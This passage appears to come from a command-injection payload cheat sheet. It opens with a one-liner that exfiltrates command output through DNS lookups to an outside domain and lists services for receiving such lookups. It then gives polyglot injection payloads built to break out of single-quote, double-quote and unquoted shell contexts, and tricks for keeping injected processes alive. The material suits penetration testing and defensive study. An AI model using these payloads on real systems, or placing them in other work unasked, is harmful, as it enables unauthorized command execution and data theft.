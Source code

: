 ```powershell
$(host $(wget -h|head -n1|sed 's/[ ,]/-/g'|tr -d '.').sudo.co.il)
```

Online tools to check for DNS based data exfiltration:

- dnsbin.zhack.ca
- pingb.in


## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:
  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
* Example 2: 
  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  # Context inside commands with single and double quote:
  echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
  echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
  echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
  ```


## Tricks

### Backgrounding long running commands

In some instances, you might have a long running command that gets killed by the process injecting it timing out.
Using `nohup`, you can keep the process running after the parent process exits.

```bash
nohup sleep 120 > /dev/null &
```

### Remove arguments after the injection

In Unix-like command-line interfaces, the `--` symbol is used to signify the end of command options. After `--`, all arguments are treated as filenames and arguments, and not as options.
